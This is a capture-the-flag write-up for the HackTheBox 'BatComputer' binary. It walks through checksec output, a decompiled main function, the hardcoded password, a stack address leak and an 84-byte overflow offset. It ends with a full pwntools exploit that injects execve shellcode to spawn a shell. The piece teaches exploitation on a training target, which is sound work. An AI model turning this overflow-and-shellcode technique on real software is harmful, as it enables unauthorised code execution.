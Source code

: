 ```yaml
---
title: BatComputer HackTheBox 
author: pwndumb
date: 2021-04-22 11:10:00 +0800
categories: [pwn,Linux]
tags: [pwn,linux]
---
```

# BatComputer

I have to exploit the `BatComputer` binary. 

## Analysis of the Binary

Let's run `checksec` in the binary:

```bash
root@09263602631a:/pwd# checksec batcomputer

[*] '/pwd/batcomputer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
root@09263602631a:/pwd#

```

### Dinamic Analysis 

Let me run the binary and see whats happen:

```bash
┌──(root💀71d272d1ad85)-[/pwd]
└─# ./batcomputer
Welcome to your BatComputer, Batman. What would you like to do?
1. Track Joker
2. Chase Joker
> 2
Ok. Let's do this. Enter the password:
```

We need a password. Let me analyse that in [rizin](https://rizin.re)

## Rizin Analysis

In rizin I can use the plugin `rz-ghidra` to decompile the program: 

```c
[0x000010b0]> s main
[0x000011ec]> pdg

// WARNING: Could not reconcile some variable overlaps

undefined8 main(void)
{
    int32_t iVar1;
    char *buf;
    undefined auStack84 [76];

    fcn.000011a9();
    while( true ) {
        while( true ) {
            sym.imp.memset((int64_t)&buf + 4, 0, 0x10);
            sym.imp.printf(
                          "Welcome to your BatComputer, Batman. What would you like to do?\n1. Track Joker\n2. Chase Joker\n> "
                          );
            sym.imp.__isoc99_scanf(0x2069, &buf);
            if ((int32_t)buf != 1) break;
            sym.imp.printf("It was very hard, but Alfred managed to locate him: %p\n", auStack84);
        }
        if ((int32_t)buf != 2) break;
        sym.imp.printf("Ok. Let\'s do this. Enter the password: ");
        sym.imp.__isoc99_scanf("%15s", (int64_t)&buf + 4);
        iVar1 = sym.imp.strcmp((int64_t)&buf + 4, "b4tp@$$w0rd!");
        if (iVar1 != 0) {
            sym.imp.puts("The password is wrong.\nI can\'t give you access to the BatMobile!");
    // WARNING: Subroutine does not return
            sym.imp.exit(0);
        }
        sym.imp.printf("Access Granted. \nEnter the navigation commands: ");
        sym.imp.read(0, auStack84, 0x89);
        sym.imp.puts("Roger that!");
    }
    sym.imp.puts("Too bad, now who\'s gonna save Gotham? Alfred?");
    return 0;
}

```
Now I know the password that I need.

## Buffer overflow

It's clear that has a `buffer overflow` in last `read`. The variable `auStack84` has 0x76 bytes and the read allow to insert 0x89 bytes. 


## Leak Address 

The program leak address of my buffer will be in the `stack`.
```bash
┌──(root💀452e899102af)-[/pwd/2-bat-computer]
└─# ./batcomputer
Welcome to your BatComputer, Batman. What would you like to do?
1. Track Joker
2. Chase Joker
> 1
It was very hard, but Alfred managed to locate him: 0x7ffd2eeecec4
Welcome to your BatComputer, Batman. What would you like to do?
1. Track Joker
2. Chase Joker
>

```

## Find the padding

Using gdb I can find the correct offset to trigger my buffer overflow: `84 bytes`. 


## The main ideia

 Run the program and choose the option `1` to read where my buffer will be. Next I choose the option `2` and send the password `b4tp@$$w0rd!`. Finish I send a buffer with my shellcode. The buffer will change the flow of program and execute my payload.

> padding + eip + shellcode

To trigger my buffer overflow I send option `3` that doesnt exist, so the program will return and my buffer will overwrite the return address. 

### Pay Attention

> When recieve the `SIGV`, debug the exploit and see if some instructions not overwriting the shellcode. 
>  pwntool is a great tool, but you must understand what is going one behind the scenes. 


## Exploit


```python
#!/usr/bin/python3

from pwn import *

def main():
    context.log_level='DEBUG'
    context.update(arch='amd64', os='linux')
    log.info("lets solve")
    p=process('./batcomputer')

    # leak address of my buffer
    p.recvuntil('>')
    p.sendline('1')

    leak_address = p.recvline().split()[-1]
    leak_address = int(leak_address,16)
    log.success(f'leak_address: {hex(leak_address)}')

    # send evil payload
    # payload + eip + shellcode

    padding = b'A' * 84

    shellcode  = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91"
    shellcode += b"\xd0\x8c\x97\xff\x48\xf7\xdb\x53"
    shellcode += b"\x54\x5f\x99\x52\x57\x54\x5e\xb0"
    shellcode += b"\x3b\x0f\x05"

    buffer = flat (
            padding,
            p64(leak_address + 84+8),
            shellcode
            )

    p.recvuntil('>')
    p.send('2')
    p.recv()
    p.sendline('b4tp@$$w0rd!')
    p.recvline()
    p.send(buffer)

    # trigger buffer overflow
    p.recvline()
    p.sendline('3')

    p.interactive()

if __name__ == '__main__':
    main()
```


